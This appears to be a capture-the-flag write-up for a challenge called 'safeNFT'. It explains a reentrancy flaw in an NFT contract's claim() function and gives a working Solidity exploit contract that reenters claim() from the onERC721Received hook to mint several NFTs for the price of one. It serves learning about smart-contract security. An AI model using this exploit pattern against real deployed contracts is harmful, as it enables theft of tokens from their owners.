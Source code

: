 ### safeNFT

Solution by 2pats

Objective: Claim multiple NFTs for the price of one.

### Main Vulnerabilities:

Target contract's claim() function is susceptible to reentrancy. 

1) _safeMint will trigger the recipient account's onERC721Received custom code if it is a contract

2) the canClaim[address] is only updated AFTER safement is called

```
    function claim() external {
        require(canClaim[msg.sender],"CANT_MINT");
        _safeMint(msg.sender, totalSupply()); 
        canClaim[msg.sender] = false;
    }
```

### Exploit:

the contract must: 

- implement a contract that can call the buyNFT() function and the claim() function.
- implement onERC721Received function as per openzeppelin-contracts specification. Make sure it returns the function selector. I chose to manually encode the keccak256 hash of the string literal.
- reenter the claim() function in the onERC721Received hook. I used a simple for loop.

** when doing the reentry exploit make sure to give a generous amount of gas in order to sustain the repeated entries.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.7;

import "../lib/openzeppelin-contracts/contracts/token/ERC721/IERC721Receiver.sol";
import "../instances/safeNFT.sol";

contract Solution  {
    uint8 count = 0;
    safeNFT target = safeNFT(0xf0337Cde99638F8087c670c80a57d470134C3AAE);
    function buy() public payable {
        target.buyNFT{value:msg.value}();
    }
    function claim() public {
        target.claim();
    }
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) public returns (bytes4) {
        while (count < 4) {
            count++;
            target.claim();
        }
        return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
    }
}
```
